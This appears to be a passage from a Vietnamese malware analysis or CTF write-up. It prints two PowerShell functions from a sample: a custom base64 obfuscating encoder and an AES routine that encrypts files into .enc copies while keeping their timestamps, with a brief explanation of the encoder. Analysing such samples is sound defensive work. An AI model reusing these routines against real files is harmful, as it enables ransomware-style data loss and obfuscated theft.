 
- Ta sẽ xem xét qua các hàm quan trọng trong file này trước

```powershell
function R64Encoder { 
   if ($args[0] -eq "-t") { $VaFQ = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($args[1])) }
   if ($args[0] -eq "-f") { $VaFQ = [Convert]::ToBase64String([IO.File]::ReadAllBytes($args[1])) }
   $VaFQ = $VaFQ.Split("=")[0] ; $VaFQ = $VaFQ.Replace("C", "-") ; $VaFQ = $VaFQ.Replace("E", "_")
   $8bKW = $VaFQ.ToCharArray() ; [array]::Reverse($8bKW) ; $R64Base = -join $8bKW ; return $R64Base }
```

- Hàm này chuyển chuỗi qua base64, sau đó loại bỏ dấu "=" phía sau ($VaFQ = $VaFQ.Split("=")[0]) 
- Cuối cùng là thay thế "C" thành "-", "E" thành "_" và đảo chuỗi (reverse)

```powershell
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}
```

